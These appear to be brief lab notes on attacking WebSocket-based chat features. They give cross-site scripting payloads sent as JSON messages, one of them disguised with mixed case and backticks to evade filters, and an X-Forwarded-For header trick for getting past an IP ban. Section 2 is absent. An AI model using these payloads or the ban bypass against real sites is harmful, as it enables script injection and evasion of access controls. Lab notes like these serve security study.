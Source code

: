 ## 1. Manipulating WebSocket messages to exploit vulnerabilities

```json
{"message":"<img src=x onerror=alert()>"}
```



## 3. Manipulating the WebSocket handshake to exploit vulnerabilities

Add header when you are banned

`X-Forwarded-For: 1.1.1.1`

```json
{"message":"<img src=1 oNeRrOr=alert`1`>"}
```
